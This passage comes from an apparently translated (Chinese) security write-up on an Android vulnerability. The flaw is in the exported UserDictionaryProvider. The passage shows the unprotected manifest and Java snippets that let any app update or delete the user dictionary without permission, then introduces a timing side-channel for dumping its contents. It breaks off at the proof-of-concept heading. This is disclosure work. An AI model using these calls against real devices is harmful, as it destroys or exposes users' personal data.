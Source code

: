 ```java
   mBackupManager.dataChanged();
   return count;
}
```

最后注意`AndroidManifest.xml`文件对于显式导出的内容提供者不提供任何额外的保护（例如，intent过滤器或权限）：

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
       package="com.android.providers.userdictionary"
       android:sharedUserId="android.uid.shared">

   <application android:process="android.process.acore"
       android:label="@string/app_label"
       android:allowClearUserData="false"
       android:backupAgent="DictionaryBackupAgent"
       android:killAfterRestore="false"
       android:usesCleartextTraffic="false"
       >

       <provider android:name="UserDictionaryProvider"      //"UserDictionaryProvider"
          android:authorities="user_dictionary"
          android:syncable="false"
          android:multiprocess="false"
          android:exported="true" />                     //android:exported="true"

   </application>
</manifest>
```

攻击者只需从任何恶意应用程序调用如下代码，就可以更新用户字典的内容，而无需请求任何许可： 

```java
ContentValues values = new ContentValues();
values.put(UserDictionary.Words.WORD, "IOActive");

getContentResolver().update(UserDictionary.Words.CONTENT_URI, values,
        null, null);
```

删除任何内容，包括整个个人字典也很简单： 

```java
getContentResolver().delete(UserDictionary.Words.CONTENT_URI, null, null); 
```

这两种方法(`update` 和`delete`) 都应该返回受影响的行数，但是在这种情况下(对于非法的调用) 总是返回零，这使得攻击者更难从内容提供者提取或推断出任何信息。 

在这一点上，从攻击者者的角度来看，这可能是我们所能做的全部。虽然删除或更新任意条目可能会给最终用户带来麻烦，但最有趣的部分是访问个人数据。 

即使查询功能没有受到这个功能的直接影响，但仍然可以通过利用基于时间的侧通道攻击来转储整个内容。 由于攻击者完全可控`where`参数，并且由于任何行的成功更新比不影响任何行的同一语句需要更多时间来执行，所以下面描述的攻击被证明是有效的。 

### 简单的PoC

考虑从恶意应用程序运行以下代码片段:
